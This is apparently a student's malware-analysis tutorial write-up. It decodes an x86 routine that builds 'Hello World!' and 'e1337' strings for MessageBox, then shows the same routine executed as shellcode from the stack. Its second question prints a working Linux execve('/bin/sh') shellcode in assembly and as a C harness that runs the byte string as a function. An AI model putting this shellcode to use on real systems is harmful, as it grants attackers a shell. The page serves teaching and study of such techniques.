 # Tutorial 5 

WEL COME BACK AFTER ASG 1

![yves come](./Assets/yves_comehere.gif)

## Menu

[Qn 1](#q1)

[Qn 2](#q2)

[Qn 3](#q3)

Alright let's get started ヽ(o＾▽＾o)ノ


### <a name="q1">Qn 1</a>

At the start of this routine, we see a lot of push into the stack 
```
00010000	6A 00			    push		0
00010002	68 72 6C 64 21		push		0x21646c72
00010007	68 6F 20 57 6F		push		0x6f57206f
0001000C	68 48 65 6C 6C		push		0x6c6c6548
```
Stack be liek
```
 ^      6c6c6548       <---ESP
 |      6f57206f
 |      21646c72
 |      0
```
That looks like a null terminator right there. So let's ascii this (remember the endianess of the stack)
```
Input: 48 65 6c 6c 6f 20 57 6f 72 6c 64 21
Output: Hello World! 
```

```
00010011	8B C4			mov		eax, esp 
```
don't know what's doing here... probably need to wait a bit. Save the current stack pointer to eax

Some more pushing and then store stack frame to edx 

```
 ^      33333165       <---ESP=EDX
 |      37000000       <--- auto fill with 0 -- double as null terminator
 |      6c6c6548       <---EAX
 |      6f57206f
 |      21646c72
 |      0
```
Storing stack frame again. 

Final call to the boss function
```
0001001C	6A 00			push		0
0001001E	50				push		eax
0001001F	52				push		edx
00010020	6A 00			push		0
……          ……				mov		    eax    , <user32.MessageBox>
……		    ……				call  		eax
```
We see that there are four arguments pushed to the stack, and two of them are the pointers to the string we created just now. Remember that arguments are pushed from right to left, so let's refer to user32.MessageBox function definition, taken from MS [docs](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-messagebox)

```
int MessageBox(
  HWND    hWnd,
  LPCTSTR lpText,
  LPCTSTR lpCaption,
  UINT    uType
);
```
Hence we can tell that uType = 0, lpCaption=eax, lpText=edx,hwnd = 0 (no handle) 

So we have 
```
user32.MessageBox(0,'e1337','Hello World!,0)
```
Why the cryptic e1337? It's an urban legend dating back 2 decades [here](https://www.urbandictionary.com/define.php?term=e1337). 

### <a name="q2">Qn 2</a>

This is actually a sample of a SHELLCODE. The whole idea is that we push instructions into the stack and then run the stack as instructions (remember that instructions are usually in the .text section, but now we are forcing EIP to run off at the stack. I think this is only possible in Von Neumann Architecture). There is a bit of history why it's called a shellcode (mainly because its earlier purpose in history was to spawn a shell -- a terminal for attacker) and its relationship to the code word e1337. Yall should take a look. 

**The most popular shellcode** would be the execve("/bin/sh") whose sample I have kindly borrowed below from shell-storm{dot}org. 

The assembly code that would spawn a shell is
```
xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80
```
The C code that will push the shellcode (in the form of a string) into the stack (as local variable) _and run the string as a function pointer_ -- (\*(void(\*)()) shellcode)()
```
#include <stdio.h>
#include <string.h>
 
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		  "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}
```
The shellcode is often written in assembly and hence can be executed directly on stack. In our case, we observe esp being moved to eax, subsequently a call to eax will put the esp's value into EIP, effectively making the next instruction running from the stack top. 

The shellcode in part b will actually build the four parameters we saw just now in question 1. Once it finishes, it will jump back to the original routine (via ret call) and call user32.MessageBox. 

To see how the shellcode is being built, take a look at what is being pushed into the stack:
```
Addr.		  Bytes			      Instr.	Operands
00010000	68 C3 00 00 00	push	0xc3
00010005	68 52 6A 00 57	push	0x57006a52
0001000A	68 D4 6A 00 50	push	0x50006ad4
0001000F	68 31 33 33 8B	push	0x8b333331
00010014	68 6A 37 68 65	push	0x6568376a
00010019	68 6C 6C 8B C4	push	0xc48b6c6c
0001001E	68 6F 68 48 65	push	0x6548686f
00010023	68 68 6F 20 57	push	0x57206f68
00010028	68 72 6C 64 21	push	0x21646c72
0001002D	68 5F 6A 00 68	push	0x68006a5f
```
After each push, the stack grows by 4 bytes. At the end of the routine, after ESP is loaded into EIP, the EIP will increase (that's how instruction is loaded ). So the last thing that was pushed into the stack (stack grows to lower addresses in IA32) will be the first shellcode instruction. Visualizing the stack as follow:
```
5F 6A 00 68 <-- Low adress; EIP; ESP 
72 6C 64 21	    
68 6F 20 57	
6F 68 48 65	
6C 6C 8B C4	
6A 37 68 65	
31 33 33 8B	
D4 6A 00 50	
52 6A 00 57	
C3 00 00 00	<-- High address
```
You do see that the last thing being pushed to the stack now will be the first instruction pointed to by EIP right? 

So if we dissassemble the code [here](https://defuse.ca/online-x86-assembler.htm#disassembly2) (or any other online tools, really.) 

![na](./Assets/b_online_disas.png)

It is exactly the same as part a, but now instead of residing in the .text region, the instructions are now at the stack.

Those who are interested in shellcode writing, can read "The Shellcoder's Handbook" by Anley and Felix. (actually most of the time I copy mine off shell-storm{dot}.org)

### <a name="q3">Qn 3</a>

Yes they are the same thing. The difference is that a instructions is in .text and b instructions is in the stack. 

Malware often use shellcode to run their payload because it is extremely lightweight. However, as we have learnt in CE4062 Computer Security, there are measures against this such as making the stack not executable (by checking if EIP went into the stack range). 

However, in 2002, phrack already know more sophisticated method to bypass this. [Here](http://phrack.org/issues/56/5.html) is the issue focusing on breaking the stack even with XOR canary in that magazine. (Proceed at your own risk)

That's all for this tutorial! Shellcode is a very interesting technique and most malware payload use this. As part of our study in Malware Analysis we should know about it and analyse it well. 

![yves](./Assets/yves.gif)

See you next week!

[Back to Main Menu](./../)

